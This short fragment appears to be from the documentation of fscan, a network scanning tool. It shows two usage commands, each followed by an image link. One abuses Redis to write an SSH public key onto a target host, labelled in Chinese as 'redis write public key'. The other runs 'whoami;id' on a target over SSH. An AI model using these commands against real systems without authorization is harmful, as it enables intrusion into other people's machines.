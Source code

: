 `fscan.exe -h 192.168.x.x -rf id_rsa.pub (redis 写公钥)`
![](image/2.png)

`fscan.exe -h 192.168.x.x -c "whoami;id" (ssh 命令)`
![](image/3.png)
